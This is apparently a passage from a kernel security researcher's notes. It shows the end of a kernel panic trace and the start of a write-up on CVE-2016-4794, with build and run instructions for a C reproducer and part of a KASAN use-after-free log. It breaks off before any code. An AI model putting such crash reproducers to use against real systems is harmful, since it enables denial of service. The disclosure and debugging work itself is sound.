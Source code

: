 [   59.869285]  [<ffffffff813b3ee2>] ? is_ftrace_trampoline+0xc2/0xf0
[   59.869814]  [<ffffffff8109010a>] ? print_context_stack+0x6a/0xf0
[   59.870351]  [<ffffffff814ce4b0>] ? warn_alloc_failed+0x240/0x240
[   59.870883]  [<ffffffff815c2de4>] ? deactivate_slab+0x134/0x3d0
[   59.871387]  [<ffffffff815c1f93>] ? alloc_debug_processing+0x73/0x1b0
[   59.871936]  [<ffffffff82b387bc>] inet_sendmsg+0x24c/0x350
[   59.872405]  [<ffffffff82b38570>] ? inet_recvmsg+0x3d0/0x3d0
[   59.872913]  [<ffffffff829081ff>] sock_sendmsg+0xcf/0x110
[   59.873389]  [<ffffffff82908462>] sock_write_iter+0x222/0x3c0
[   59.873879]  [<ffffffff82908240>] ? sock_sendmsg+0x110/0x110
[   59.874394]  [<ffffffff82c94c07>] ? ip6_datagram_release_cb+0x1e7/0x260
[   59.874969]  [<ffffffff81c2a6cf>] ? iov_iter_init+0xaf/0x1d0
[   59.875453]  [<ffffffff8161d71b>] __vfs_write+0x3cb/0x640
[   59.875915]  [<ffffffff8161d350>] ? default_llseek+0x2c0/0x2c0
[   59.876412]  [<ffffffff81ac3fd7>] ? apparmor_file_permission+0x27/0x30
[   59.876969]  [<ffffffff8162106a>] ? rw_verify_area+0xea/0x2b0
[   59.877460]  [<ffffffff816216b5>] vfs_write+0x175/0x4a0
[   59.877907]  [<ffffffff81624f18>] SyS_write+0xd8/0x1b0
[   59.878364]  [<ffffffff81624e40>] ? SyS_read+0x1b0/0x1b0
[   59.878831]  [<ffffffff811271c9>] ? trace_do_page_fault+0x79/0x240
[   59.879362]  [<ffffffff82d36476>] entry_SYSCALL_64_fastpath+0x1e/0xa8
[   59.879907] Code: fc ff df 48 89 fa 48 c1 ea 03 0f b6 04 02 84 c0 74 08
3c 03 0f 8e ba 00 00 00 80 a3 91 00 00 00 f9 e9 4a ff ff ff e8 b4 fe a4 fe
<0f> 0b e8 ad fe a4 fe 0f 0b e8 a6 fe a4 fe 31 d2 4c 89 ff 44 89
[   59.882261] RIP  [<ffffffff8292611c>] skb_pull_rcsum+0x1ec/0x2c0
[   59.882798]  RSP <ffff88011b007768>
[   59.883143] ---[ end trace d7d3f86c27f0e339 ]---
[   59.883546] Kernel panic - not syncing: Fatal exception in interrupt
[   59.884589] Kernel Offset: disabled
[   59.884906] ---[ end Kernel panic - not syncing: Fatal exception in
interrupt
{% endhighlight %}

## CVE-2016-4794

Note, this bug was already triggered by someone else with syzkaller, they didn't however manually coded the PoC.

# oss-sec link
[http://www.openwall.com/lists/oss-security/2016/05/12/6](http://www.openwall.com/lists/oss-security/2016/05/12/6)

# Reproducer + kASAN

{% highlight c %}
// Linux kernel version: 4.6-rc7 or 4.6-rc6, or linux master (tested
2016/05/12) compiled with KASAN to see the log
// Compile it with gcc -o durr durr.c
// Run it and it will cause the UAF endlessly see qemu logs dmesg/logs
// here there is a example log

/*
[  228.998319]
==================================================================
[  228.999029] BUG: KASAN: use-after-free in
pcpu_extend_area_map+0x111/0x130 at addr ffff88006785d47c
[  228.999833] Read of size 4 by task durr/5570
[  229.000219]
=============================================================================
[  229.000943] BUG kmalloc-192 (Tainted: G    B          ): kasan: bad
access detected
[  229.001619]
